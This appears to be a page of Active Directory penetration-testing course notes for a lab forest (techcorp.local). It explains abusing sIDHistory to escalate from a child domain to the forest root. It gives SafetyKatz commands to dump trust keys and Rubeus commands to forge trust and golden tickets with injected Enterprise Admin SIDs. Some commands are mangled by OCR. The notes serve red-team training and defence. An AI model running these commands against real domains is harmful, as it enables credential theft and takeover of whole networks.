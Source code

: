 #### Forest Root

• sIDHistory is a user attribute designed for scenarios where a user is
moved from one domain to another. When a user's domain is changed,
they get a new SID and the old SID is added to sIDHistory.
• sIDHistory can be abused in two ways of escalating privileges within a
forest:
– krbtgt hash of the child
– Trust tickets
• All the Privilege Escalation to techcorp.local we have seen till now needs
some misconfiguration. These ones are 'working as intended'.

#### Child to Forest Root - Trust Key

So, what is required to forge trust tickets is, obviously, the trust key.
Look for  trust key from child to parent.

```
SafetyKatz.exe '"lsadump::trust /patch"'
```

OR

```
SafetyKatz.exe '"lsadump::dcsync /user:us\techcorp$"'
```

OR

```
SafetyKatz.exe '"lsadump::lsa /patch"'
```

We can also use any of the earlier discussed tools to extract trust keys.

Using Rubeus, forge a ticket

```
C:\AD\Tools\Rubeus.exe silver /user:Administrator /ldap
/service:krbtgt/TECHCORP.LOCAL
/rc4:a6215eeb238da9262d014a529fe03adb /sids:S-1-5-21-
2781415573-3701854478-2406986946-519 /nowrap
```

Use the forged ticket

```
C:\AD\Tools\Rubeus.exe asktgs /service:CIFS/techcorp-
dc.TECHCORP.LOCAL /dc:techcorp-dc.TECHCORP.LOCAL /ptt
/ticket:
```

#### Child to Forest Root - krbtgt

We will abuse sIDhistory once again

```
Rubeus.exe /user:Administrator /id:500
/domain:us.techcorp.local /sid:S-1-5-21-210670787-
2521448726-163245708 /groups:513 /sids:S-1-5-21-
2781415573-3701854478-2406986946-519
/aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3
EF6FC1FFA58CACD5 /ptt
```
